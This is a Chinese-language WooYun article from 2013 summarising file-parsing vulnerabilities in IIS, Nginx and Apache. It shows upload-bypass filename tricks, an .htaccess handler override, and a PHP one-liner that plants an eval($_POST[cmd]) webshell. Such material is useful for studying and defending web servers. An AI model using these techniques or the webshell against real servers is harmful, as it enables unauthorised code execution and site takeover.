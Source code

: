 # 解析漏洞总结

2013/09/02 11:25 | [erevus](http://drops.wooyun.org/author/erevus "由 erevus 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章"), [运维安全](http://drops.wooyun.org/category/%e8%bf%90%e7%bb%b4%e5%ae%89%e5%85%a8 "查看 运维安全 中的全部文章") | 占个座先 | 捐赠作者

## 一、IIS 5.x/6.0 解析漏洞

* * *

IIS 6.0 解析利用方法有两种

1.目录解析

```
/xx.asp/xx.jpg 
```

2.文件解析

```
wooyun.asp;.jpg 
```

第一种，在网站下建立文件夹的名字为 *.asp、*.asa 的文件夹，其目录内的任何扩展名的文件都被 IIS 当作 asp 文件来解析并执行。

例如创建目录 wooyun.asp，那么

```
/wooyun.asp/1.jpg 
```

将被当作 asp 文件来执行。假设黑阔可以控制上传文件夹路径,就可以不管你上传后你的图片改不改名都能拿 shell 了。

第二种，在 IIS6.0 下，分号后面的不被解析，也就是说

```
wooyun.asp;.jpg 
```

会被服务器看成是 wooyun.asp

还有 IIS6.0 默认的可执行文件除了 asp 还包含这三种

```
/wooyun.asa
/wooyun.cer
/wooyun.cdx 
```

乌云上的 IIS 6.0 解析漏洞利用案例

[`www.wooyun.org/searchbug.php?q=IIS6.0`](http://www.wooyun.org/searchbug.php?q=IIS6.0)

## 二、IIS 7.0/IIS 7.5/ Nginx <8.03 畸形解析漏洞

* * *

Nginx 解析漏洞这个伟大的漏洞是我国安全组织 80sec 发现的…

在默认 Fast-CGI 开启状况下,黑阔上传一个名字为 wooyun.jpg，内容为

```
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?> 
```

的文件，然后访问 wooyun.jpg/.php,在这个目录下就会生成一句话木马 shell.php

这个漏洞案例

[WooYun: 用友软件某分站 SQL 注入漏洞+nginx 解析漏洞](http://www.wooyun.org/bugs/wooyun-2013-032250)

[WooYun: 新浪网分站多处安全漏洞（nginx 解析+SQL 注射等）小礼包](http://www.wooyun.org/bugs/wooyun-2013-021064)

[WooYun: kingsoft.com 某 x 级域名 nginx 解析漏洞+爆路径](http://www.wooyun.org/bugs/wooyun-2013-019253)

## 三、Nginx <8.03 空字节代码执行漏洞

* * *

影响版:0.5.*,0.6.*, 0.7 <= 0.7.65, 0.8 <= 0.8.37

Nginx 在图片中嵌入 PHP 代码然后通过访问

```
xxx.jpg%00.php 
```

来执行其中的代码

Nginx 空字节代执行漏洞案例

[`www.wooyun.org/searchbug.php?q=%2500.php`](http://www.wooyun.org/searchbug.php?q=%2500.php)

## 四、Apache 解析漏洞

* * *

Apache 是从右到左开始判断解析,如果为不可识别解析,就再往左判断.

比如 wooyun.php.owf.rar “.owf”和”.rar” 这两种后缀是 apache 不可识别解析,apache 就会把 wooyun.php.owf.rar 解析成 php.

如何判断是不是合法的后缀就是这个漏洞的利用关键,测试时可以尝试上传一个 wooyun.php.rara.jpg.png…（把你知道的常见后缀都写上…）去测试是否是合法后缀

Apache 解析漏洞案例

[`www.wooyun.org/searchbug.php?q=apache%E8%A7%A3%E6%9E%90`](http://www.wooyun.org/searchbug.php?q=apache%E8%A7%A3%E6%9E%90)

## 五、其他

* * *

在 windows 环境下，xx.jpg[空格] 或 xx.jpg. 这两类文件都是不允许存在的，若这样命名，windows 会默认除去空格或点,黑客可以通过抓包，在文件名后加一个空格或者点绕过黑名单.若上传成功，空格和点都会被 windows 自动消除,这样也可以 getshell。

如果在 Apache 中.htaccess 可被执行.且可被上传.那可以尝试在.htaccess 中写入: 

```
<FilesMatch "wooyun_jpg.jpg"> SetHandler application/x-httpd-php </FilesMatch> 
```

然后再上传 shell.jpg 的木马, 这样 shell.jpg 就可解析为 php 文件。

版权声明：未经授权禁止转载 [erevus](http://drops.wooyun.org/author/erevus "由 erevus 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Nginx 安全配置研究](http://drops.wooyun.org/tips/1323)
*   [通过 nginx 配置文件抵御攻击](http://drops.wooyun.org/tips/734)
*   [fail2ban 防暴力破解介绍使用](http://drops.wooyun.org/tips/3029)
*   [加盐 hash 保存密码的正确方式](http://drops.wooyun.org/papers/1066)
*   [关于 OpenSSL“心脏出血”漏洞的分析](http://drops.wooyun.org/papers/1381)
*   [Google DNS 劫持背后的技术分析](http://drops.wooyun.org/papers/1207)
